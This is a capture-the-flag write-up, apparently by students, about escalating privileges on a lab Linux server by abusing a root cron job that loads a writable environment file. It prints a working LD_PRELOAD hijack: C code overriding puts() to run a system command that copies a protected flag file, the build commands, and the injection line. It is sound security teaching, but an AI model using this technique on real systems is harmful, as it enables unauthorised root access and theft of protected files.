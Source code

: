 # Linux Environment 

## Exploration

Upon accessing the Linux server in the port `4006` of `ctf-fsi.fe.up.pt`, we were quick to search for potencial clues. Inside the directory `/home/flag_reader`, where we started, the following files were found:

![img.png](./images/env_start_files.png)

While checking their content, we immediatily found our first clue in the file `admin_note.txt`:

![img.png](images/admin_note.png)

We could tell `/tmp` would have some clues.
Checking `main.c`, we found the location of our goal, the flag. It would be found in the file `/flags/flag.txt`:

![img.png](images/env_mainc.png)

We also find `reader`, which is the executable file for `main.c`, and `my_script.sh`, which **adds whatever is in the `env` file to the environment variables and executes `reader`**:

![img.png](images/my_script.png)

After attempting to execute both `reader` and `my_script.sh`, we kept getting the following message:

![img.png](images/reader_output.png)

We found it weird that the file did not exist despite being included in `main.c`. After trying to access `/flags`, we were denied permission to access it. It had become clear we would **need to have more permissions** in order to access the flag. 

After exploring `/tmp`, all we can find there is the `env` file `my_script.sh` refers to. Unlike in `/home/flag_reader`, where we **could not create or modify files**, it turned out we could do so in `/tmp`, including to the `env` file! 

The last clue was found using the `top` command, which displays the running processes. By using it, we could see that a "cron" process was running, **with "root" permissions**:

![img.png](images/env_top.png)

After reviewing the exercice's description, we realised **this "cron" was running `my_script.sh`, periodically**.
**We decided to exploit the environment variable "LD_PRELOAD"**, which, as we studied, loads the associated library before any others.

## Execution 

To get the most out of this vulnerability, we mostly worked inside `/tmp`. 
We started by creating a C file with "malicious" code, meant to write the flag on another file, using the following commands:

```sh
touch lib.c
echo "#include <stdio.h>
#include <stdlib.h>
int puts (const char *str)
{
    system(\"/usr/bin/cat /flags/flag.txt > /tmp/flag.txt\");
    return 0;
}" > /tmp/lib.c
```
We replaced the function puts(), since the program `reader` uses it.

Afterwards, we created a shared library in the same folder, from this C file:

```sh
gcc -c -o lib.o lib.c
gcc -shared -o lib.so lib.o
```

Lastly, all we had to do was set the environment variable:

```sh
echo LD_PRELOAD=/tmp/lib.so > env
```

With this done, all we had to do was wait until the "cron" ran. And a few moments later, it did.

![img.png](images/env_got_flag.png)

We found the flag ```flag{5ff2b5ce4a3db5ee5883cfb75e994b99}```!